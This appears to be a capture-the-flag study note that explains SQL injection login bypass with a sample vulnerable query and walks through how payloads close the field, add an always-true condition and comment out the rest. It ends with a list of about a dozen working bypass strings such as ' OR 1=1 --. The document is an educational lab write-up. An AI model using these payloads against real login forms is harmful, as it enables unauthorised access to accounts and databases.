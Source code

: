 SQL injection (SQLi) is a well-known web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. ([Source](https://portswigger.net/web-security/sql-injection))

This note may be expanded in future. Challenges that require SQLi:
* SQL Direct : [*click*](../content/Web%20Exploitation/SQL%20Direct.md)
* SQLiLite : [*click*](../content/Web%20Exploitation/SQLiLite.md) 
* More SQLi : [*click*](../content/Web%20Exploitation/More%20SQLi.md) 

Let's assume that the application queries the database with the following SQL query:


```sql
SELECT * FROM users WHERE name='USERNAME' AND password='PASSWORD'
```


To dump all users, we will inject into the `name` field. To do this, our payload must meet the following conditions:



* close the `name` field: `name=' '`
* add a condition that always returns `true`
* truncate the rest of the query 

For the last condition, we need to know what comments or query endings look like in SQL:

```sql
#
--
/* */ (open close)
;%00	(nullbyte)
;     (end of query)
```

For example payload `' OR 1=1;/*`

`'`- closes the bracket for the `name` field, ending an empty line

`OR 1=1` - adds a condition that is **always true**:



* `1=1` always equals `true`
* Because of the operator `OR`, even if `name=' '` is `false`, the entire expression becomes `true`. The operator assumes that if **ONE** condition of the expression is *true*, then the entire expression is *true*. ([Logical disjunction](https://en.wikipedia.org/wiki/Logical_disjunction))

  ![Logical disjunction schema](../content/assets/images/Logical_disjunction.png)

* `--` - This is a comment in SQL that disables the rest of the query after it (comments it out). You can try the same thing with the end-of-query symbol `;`.



Let's insert the aforementioned payload:


```sql
SELECT * FROM users WHERE name='' OR 1=1;/*' AND password='PASSWORD'
```


`/*` – Everything that follows this part will be considered a comment and will not be executed. Although `name='' ` is empty, the condition `OR 1=1` will force the entire expression to be *true*.

Taking into account the three rules above, you can construct injections yourself, which I did while completing the [SQLiLite](../content/Web%20Exploitation/SQLiLite.md) task:  

<pre class="prettyprint">
' OR 1=1 --";
' OR 1=1;--' 
' OR 1=1;--  
' OR 1=1;    
''' OR 1=1;  
''''' OR 1=1; # odd number in the payload required
' or true /*
' OR 1=1 /*
1' or 1 /* 
232435.11' or 12312.22 /* # every int/float/double number passes
' OR 1=1 --"
1' OR 12666;%00 # every int/float/double number passes
33' OR 1=1 -- 
</pre>




Let's look at some examples `''' OR 1=1;` and  `''''' OR 1=1;` :


```sql
SELECT * FROM users WHERE name='''' OR 1=1;--' AND password='PASSWORD'
```


Make sure that the payload starts with an odd number of brackets so that the last one is **closing** for the field.

